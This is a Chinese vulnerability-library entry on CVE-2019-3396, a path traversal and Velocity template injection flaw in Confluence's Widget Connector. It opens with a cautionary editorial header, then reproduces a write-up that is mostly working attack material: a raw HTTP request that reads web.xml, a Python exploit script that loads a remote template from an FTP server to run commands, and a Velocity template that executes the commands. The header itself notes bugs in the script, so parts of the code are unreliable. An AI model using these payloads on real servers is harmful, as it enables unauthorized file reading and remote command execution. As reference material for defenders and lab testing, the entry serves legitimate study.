


# Confluence Widget Connector 3396读取及Velocity执行

## 条目说明

- 对象与具体问题：Confluence Widget Connector；3396读取及Velocity执行
- 版本、配置及部署条件：有分支版本矩阵；<6.12协议约束
- 认证与权限前提：无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 脚本re匹配字面n疑丢换行转义，m可能未赋值/空列表直接m[0]；Python2且硬编码FTP
- 说明命令夹Markdown链接，模板反斜杠需核原文；缺修复章
- 图片尾残片，不能把脚本运行失败当无漏洞

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

（CVE-2019-3396）Confluence 路径穿越与命令执行漏洞
==================================================

一、漏洞简介
------------

Atlassian
Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

二、漏洞影响
------------

    Confluence 1.*.*、2.*.*、3.*.*、4.*.*、5.*.*

    Confluence 6.0.*、6.1.*、6.2.*、6.3.*、6.4.*、6.5.*

    Confluence 6.6.* < 6.6.12

    Confluence6.7.*、6.8.*、6.9.*、6.10.*、6.11.*

    Confluence 6.12.* < 6.12.3

    Confluence 6.13.* < 6.13.3

    Confluence 6.14.* < 6.14.2

三、复现过程
------------

发送如下数据包，即可读取文件`web.xml`：

```http
    POST /rest/tinymce/1/macro/preview HTTP/1.1
    Host: localhost:8090
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
    Content-Type: application/json; charset=utf-8
    Content-Length: 176

    {"contentId":"786458","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc6","width":"1000","height":"1000","_template":"../web.xml"}}}
```


Confluence路径穿越与命令执行漏洞/media/rId24.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

Confluence路径穿越与命令执行漏洞/media/rId25.png)

#### poc

> 首先需要一台外网的服务器

    1.使用FTP加载vm文件  
    2.修改filename为自己的vm文件路径，例如 filename = "ftp://192.168.50.181/rce.vm"  
    3.python CVE-2019-3396.py [http://ip:port](http://ip) "whoami"

> CVE-2019-3396.py

    # -*- coding: utf-8 -*-
    import re
    import sys
    import requests

    def _read(url):
        result = {}
        # filename = "../web.xml"
        filename = 'file:////etc/group'

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    def _exec(url,cmd):
        result = {}
        filename = "ftp://192.168.50.181/rce.vm"

        paylaod = url + "/rest/tinymce/1/macro/preview"
        headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
            "Referer": url + "/pages/resumedraft.action?draftId=12345&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&",
            "Content-Type": "application/json; charset=utf-8"
        }
        data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
        r = requests.post(paylaod, data=data, headers=headers)
        # print r.content
        if r.status_code == 200 and "wiki-content" in r.text:
            m = re.findall('.*wiki-content">n(.*)n            </div>n', r.text, re.S)

        return m[0]

    if __name__ == '__main__':
        url = sys.argv[1]
        cmd = sys.argv[2]
        print _exec(url,cmd)

> rce.vm

    #set ($e="exp")
    #set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
    #set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
    #set($sc = $e.getClass().forName("java.util.Scanner"))
    #set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
    #set($scan=$constructor.newInstance($input).useDelimiter("\A"))
    #if($scan.hasNext())
        $scan.next()
    #end

参考链接
--------

> https://vulhub.org/\#/environments/confluence/CVE-2019-3396/
